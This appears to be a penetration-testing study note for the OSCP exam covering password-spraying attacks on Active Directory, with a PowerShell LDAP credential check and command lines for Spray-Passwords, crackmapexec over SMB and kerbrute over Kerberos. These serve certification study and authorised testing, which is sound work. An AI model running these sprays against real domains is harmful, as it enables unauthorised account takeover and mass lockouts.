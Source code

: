 ```yaml
---
{"dg-publish":true,"permalink":"/oscp/n-active-directory-attacks/2-password-attacks/"}
---
```


------
Enumerate account policy:
```
net accounts
```
---------------
### Manual LDAP Password Attack:
- Local method
- Low and slow attack method
- Run lines separately or as a script
```powershell
$domainObj = [System.DirectoryServices.ActiveDirectory.Domain]::GetCurrentDomain()
$PDC = ($domainObj.PdcRoleOwner).Name
$SearchString = "LDAP://"
$SearchString += $PDC + "/"
$DistinguishedName = "DC=$($domainObj.Name.Replace('.', ',DC='))"
$SearchString += $DistinguishedName
New-Object System.DirectoryServices.DirectoryEntry($SearchString, "<user>", "<password>")
```
- If credentials are correct the object creation is successful
--------------
### Automatic LDAP Attack with Spray-Passwords:
- https://github.com/ZilentJack/Spray-Passwords
- Does not require any admin access.
- Generates a lot of traffic and is not opsec safe
- Usage:
```
.\Spray-Passwords.ps1 -Pass Nexus123! -Admin

#Multiple passwords: -Pass 'Password1,Password2'
#Download wordlist: -Url <url>
```
--------------
### SMB Password Attack with crackmapexec:
- Remote method
- Crackmap does not take password policy into account so be cautious
- Traditional attack approach in AD
- Drawback that full SMB connection has to be made for every try
- Very noisy and quite slow
```bash
sudo crackmapexec smb <ip-on-domain> -u users.txt -p 'Nexus123!' -d <domain> --continue-on-success
```
- "Pwn3d!" indicates admin user!
----------
### Kerberos TGT Attack with kerbrute:
- Cross-platform method
- If username and password are correct a cached Kerberos ticket is obtained.
- Only uses two UDP frames every try (only AS-REQ).
- Local usage:
```powershell
.\kerbrute_windows_amd64.exe passwordspray -d <domain> .\usernames.txt "password123!"
```
- If receives network error make sure usernames file is of ANSI encoding.
